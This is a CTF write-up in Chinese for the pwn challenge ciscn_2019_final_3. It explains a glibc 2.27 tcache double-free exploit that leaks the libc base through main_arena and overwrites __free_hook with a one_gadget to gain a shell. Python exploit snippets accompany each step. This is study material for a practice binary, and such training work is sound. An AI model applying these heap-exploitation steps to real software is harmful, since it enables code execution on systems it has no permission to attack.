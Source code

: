 ### ciscn_2019_final_3
提供了 libc，发现是 2.27 版本的，考虑和 tcache 利用有关。

程序提供了 `add` 和 `remove` 两个功能，首先 `add` 只能创建小于 0x78 字节的 chunk，且最多创建 0x18 个 chunk。`gift` 会返回分配到的内存地址。而在 `remove` 中，`free` 之后没有将指针置 null，存在 double free。

由于题目给了 libc，我们希望能泄露 libc 地址，这就需要 tcache 中某节点的 fd 指向 libc。而我们知道，unsorted bin 指向 `main_arena` 的指针是指向 libc 的，那么能不能把这个指针给 tcache 中某节点的 fd 呢？

由于 0x78 字节的限制我们无法直接创建适合放入 unsorted bin 中的 chunk，因此需要先合并小堆块，然后修改 `chunk0` 的 `chunk_size` 把他变成一个大堆块。那么如何修改这个 `chunk_size` 字段？这就需要用到 double free，假设我们连续申请堆块申请到了 `chunk11`：
```python
chunk0 = add(0x78)
add(0x18)
for i in range(10):
	add(0x78)
```

> 注：第二次分配了 0x18 字节是 64 位下最小分配大小。这个 `chunk1` 的分配是为了让 unsorted bin 与 tcache 错位。

那么这时连续两次 `free` 掉 `chunk11`，再 `add` 回来，使得 `chunk11->fd = chunk0-0x10`，那么我们就在 `chunk0-0x10` 处伪造了一个堆块，再次 `add` 就会分配到 `chunk0-0x10`，此时填入准备好的 `prev_size` 及 `chunk_size` 即可修改 `chunk0` 大小。注意为了确保释放后进入 unsorted bin，`chunk_size` 需大于 0x400 字节。
```python
remove(11)
remove(11)
add(0x78,p64(chunk0-0x10)) # chunk11->fd = chunk0-0x10
add(0x78,p64(chunk0-0x10))
add(0x78,p64(0)+p64(0x4a1))
```

随后我们释放 `chunk0` 就会进入 unsorted bin，而释放 `chunk1` 会进入 `tcache[0]`。此时 `add` 就会得到 `chunk0`，并使得 `chunk1->fd = main_arena`，那么接下来一次 `add` 得到 `chunk1`，下一次 `add` 得到 `main_arena`，减去偏移量即 libc 基址。

```python
remove(0) # unsorted bin
remove(1) # tcache[0]
add(0x78) # chunk0; chunk1->fd = main_arena
add(0x18) # chunk1
main_arena = add(0x18)
base = main_arena - 0x3ebca0
leak('base', base)
```

最后再次利用 double free，用 `one_gadget` 覆盖 `free_hook`，再次调用 `remove` 即可。

```python
libc = ELF('./libc.so.6')
free_hook = base + libc.sym['__free_hook']
one_gadget = base + 0x10a38c

add(0x28)
remove(18)
remove(18)
add(0x28, p64(free_hook))
add(0x28, p64(free_hook))
add(0x28, p64(one_gadget))
remove(0)
```
